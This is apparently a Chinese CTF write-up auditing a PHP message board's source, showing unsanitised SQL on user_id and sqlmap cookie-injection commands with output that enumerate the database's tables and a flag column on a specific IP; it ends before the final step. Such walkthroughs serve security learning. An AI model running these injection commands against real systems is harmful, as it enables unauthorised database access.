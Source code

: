 随手扫一下后台，得到了一个 www.zip 的源码包，然后就是代码审计了。

一开始毫无经验，看了好久的源码之后，还是不知从何下手，顺手把 PHP 和 MySQL 学了。

第一想法是 `username` 和 `password` 可以注入，毕竟过滤函数不会对他们进行处理。

```shell
foreach ($_POST as $key => $value) {
    if ($key != "username"&&strstr($key, "password") == false) {
        $_POST[$key] = filtering($value);
    }
}
```

但是这玩意就算有注入也不太好玩呀？？注入什么才会显示 flag 呢？这是一个问题 [常用手工注入语句](https://blog.csdn.net/wizardforcel/article/details/59480461)

后面又发现 `uesr_id` 可以注入，最终在 `login.php` 中找到 `user_id` 的来源，就是数据库中的键。

```php
// index.php
<h2>历史留言</h2>
<?php
    $user_id=$_SESSION['user_id'];
	$sql = "select * from content where user_id=$user_id";
	$arr = select($sql);
?>
    
// login.php
$_SESSION['username'] = $a['username'];  // 在这里
$_SESSION['user_id'] = $a['id'];		 // 手动高亮
```

询问朋友得知可以 cookie 注入，突然又有了新思路，手工注入又不太会，先跑跑 sqlmap 试试。[参考博客](https://blog.csdn.net/u011781521/article/details/58135307)

```shell
# 1.cookie 注入，猜解表
sqlmap -u http://120.78.187.100:8082/content.php --cookie "message_id=1412" --table --level 2
# do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[10:42:28] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP 5.6.38, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
Cookie parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
# do you want to use common table existence check? [Y/n/q] Y 10
# 表已经跑出来了
Database: 2018_hdb_waf 
[3 tables]
+---------------------------------------+
| user                                  |
| content                               |
| flag                                  |
+---------------------------------------+

# 2.选择表猜解字段(flag)
sqlmap -u http://120.78.187.100:8082/content.php --cookie "message_id=1412" --column -T flag --level 2
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+

# 3.猜解内容
```
